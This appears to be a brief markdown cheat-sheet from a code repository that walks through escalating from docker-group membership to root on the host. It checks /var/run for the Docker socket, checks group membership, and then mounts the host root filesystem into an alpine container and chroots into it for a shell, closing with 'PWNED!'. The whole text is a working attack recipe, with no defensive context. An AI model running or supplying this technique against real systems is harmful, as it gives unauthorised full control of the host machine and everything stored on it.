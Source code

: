 # REQUIREMENTS:

### 1) User must be in docker group to run docker commands

### 2) Docker socket must be exposed

## STEPS:

#### 1) cd /var/run

#### 2) ls -la | grep sock

#### 3) id/groups

#### If user has permissions to run docker commands then we:

#### 4) Mount host volumes (Download an alpine image to host)

#### 5) docker run -v /:/mnt --rm -it alpine chroot /mnt sh

#### 6) PWNED!
